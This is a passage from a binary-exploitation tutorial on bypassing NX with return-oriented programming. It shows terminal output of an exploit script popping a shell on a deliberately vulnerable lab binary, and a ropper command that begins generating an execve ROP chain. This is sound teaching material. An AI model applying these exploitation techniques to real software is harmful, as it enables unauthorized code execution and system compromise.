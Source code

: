 
When we run the exploit, we get our shell.


```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/scripts$ python 2_ropexploit.py
[+] Starting local process '../build/1_staticnx': Done
[*] Switching to interactive mode
This is a big vulnerable example!
I can print many things: deadbeef, Test String, 42
Writing to STDOUT
Reading from STDIN
$ ls -la
total 16
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 12 20:31 .
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13  2017 ..
-rw-rw-r-- 1 ubuntu ubuntu  422 Jan 12 06:03 1_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu 1897 Jan 12 20:31 2_ropexploit.py
$
[*] Stopped program '../build/1_staticnx'
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/scripts$
```

## Exercises

### 6.1 Using Ropper to Generate ROP Chains

There are alternative tools to ROPgadget that perform gadget searching and
automatic chain generation. One such tool is ropper. You can generate an execve
rop chain with the following command.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ ropper --file 1_staticnx --chain execve
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

[INFO] ROPchain Generator for syscall execve:


[INFO]
write command into data section
eax 0xb
ebx address to cmd
ecx address to null
edx address to null


[INFO] Try to create chain which fills registers without delete content of previous filled registers
[*] Try permuation 1 / 24
[INFO] Look for syscall gadget

[INFO] syscall gadget found
[INFO] generating rop chain
#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('I', x)

IMAGE_BASE_0 = 0x08048000 # 1_staticnx
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

```

[1]: ./src/1_staticnx.c
[2]: ./build/1_staticnx
[3]: ./scripts/1_skeleton.py
[4]: ./scripts/2_ropexploit.py
[5]: ./scripts/3_brokenrop.py
[6]: http://syscalls.kernelgrok.com/